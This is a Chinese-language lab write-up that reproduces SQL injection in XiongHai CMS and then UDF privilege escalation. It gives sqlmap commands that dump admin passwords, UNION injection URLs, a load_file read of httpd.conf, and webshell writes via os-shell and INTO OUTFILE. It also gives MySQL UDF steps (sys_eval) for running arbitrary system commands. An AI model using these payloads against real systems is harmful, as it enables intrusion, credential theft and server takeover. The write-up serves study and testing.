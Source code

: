 ```yaml
---
title: SQL注入以及UDF提权
tags:
  - 漏洞复现
  - sql注入
categories: 技术分享
abbrlink: 27651eb5
date: 2019-10-28 17:30:48
updated: 2019-10-28 17:30:48
---
```


**熊海CMS的SQL注入以及后续的UDF提权**<!--more-->

### SQL注入

后台登录界面存在sql注入，可抓包后放到sqlmap跑![](https://i.loli.net/2019/10/28/EQmeRBvlMpLbo9a.png)

可获取到管理员密码

```
sqlmap -r 1.txt -D isea -T manage -C name,password --dump
```

![](https://i.loli.net/2019/10/28/OcJSzXi1tBlGWf9.png)

登陆到后台后还存在union联合注入

```
http://10.1.1.11/admin/?r=editcolumn&type=1&id=1' and 1=2 union select 1,2,3,4,5,6,7,8,9,10--+
```

![](https://i.loli.net/2019/10/28/JpGQmZsozfcMS4j.png)

构造注入语句

```
http://10.1.1.11/admin/?r=editcolumn&type=1&id=1' and 1=2 union select 1,version(),user(),@@datadir,5,database(),7,password,9,10 from manage--+
```

![](https://i.loli.net/2019/10/28/afdbNP5roHG7jwU.png)

### GetShell

通过sqlmap读取配置文件获取网站绝对路径

```
sqlmap -r 1.txt --file-read /etc/httpd/conf/httpd.conf
```

![](https://i.loli.net/2019/10/28/kiuISv2Kxoc9Mnr.png)

也可构造load_file()读取文件

```
http://10.1.1.11/admin/?r=editcolumn&type=1&id=1' and 1=2 union select 1,2,3,4,5,6,7,load_file('/etc/httpd/conf/httpd.conf'),9,10--+
```

![](https://i.loli.net/2019/10/28/UQXgjxoNWD14e8f.png)



###### 获取到绝对路径后可以使用sqlmap获取os-shell

PS:获取到绝对路径后并没根目录的权限，但子目录有权限

![](https://i.loli.net/2019/10/28/VhPavUCYJzTDp1O.png)

```
sqlmap -r 1.txt --os-shell     
```

![](https://i.loli.net/2019/10/28/KjVMJHvdeyq13Fz.png)

输入网站类型和路径，即可获取os-shell

![](https://i.loli.net/2019/10/28/WAbHmzN1dcyGYwa.png)

sqlmap会上传两个页面，前者为文件上传，后者为命令执行执行

![前者](https://i.loli.net/2019/10/28/YfMyDHwOKrIG4Z3.png)





![后者](https://i.loli.net/2019/10/28/IQHG2kfqnND18Wm.png)

可以利用文件上传页面上传其他shell，获得更好的体验

###### 或者构造into outfile写shell

```
http://10.1.1.11/admin/?r=editcolumn&type=1&id=1' and 1=2 union select 1,2,3,4,5,6,7,8,'<?php phpinfo();?>',10 into outfile '/var/www/html/xcxmiku/images/xcx.php'--+
```

![](https://i.loli.net/2019/10/28/4MOEnLU1o28DNZB.png)

### UDF提权

此时shell的权限为 apache ![](https://i.loli.net/2019/10/28/sNPFq6QWzpvMykT.png)

使用UDF提权可将将MYSQL账号root转化为系统system权限，从而执行系统任意命令 

###### UDF获取

在msf的/usr/share/metasploit-framework/data/exploits/mysql目录下

![](https://i.loli.net/2019/10/28/wJteD3chuvo2mYC.png)

也可在[github](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)上获取

dll对应Windows，so对应Linux

使用sqlmap --sql-shell 获取 mysql root密码

5.6及以下版本执行

```
select host,user,password from mysql.user;
```

5.7及以上版本执行

```
select host,user,authentication_string from mysql.user;
```

![](https://i.loli.net/2019/10/28/Bik34rAhfHEOuTw.png)

我这里为空密码



使用蚁剑连接数据库获取必要信息

```
select @@version_compile_machine,@@plugin_dir;
```

![](https://i.loli.net/2019/10/28/upzlc9hDC1bw5UV.png)

操作系统为64位，Plugin文件夹 在/usr/lib64/mysql/plugin

###### UDF上传

使用蚁剑将 lib_mysqludf_sys_64.so 上传至 /usr/lib64/mysql/plugin

![](https://i.loli.net/2019/10/28/qpBoUnaY63bMg5L.png)

安装UDF

```
create function sys_eval returns string soname 'lib_mysqludf_sys_64.so';
```

![](https://i.loli.net/2019/10/28/ea6oKxGQXcYlkb1.png)

这里我们选择sys_eval函数，此函数可执行系统命令并回显

验证

```
select * from mysql.func where name = 'sys_eval';
```

![](https://i.loli.net/2019/10/28/E2xOmUy1vaWu3VY.png)

利用

```
select sys_eval('whoami');
```

![](https://i.loli.net/2019/10/28/XKLWDGoQNv9EH5a.png)

通过sys_eval即可执行任意系统命令





PS: 记得用完删除文件和udf定义，删除语句为drop function sys_eval;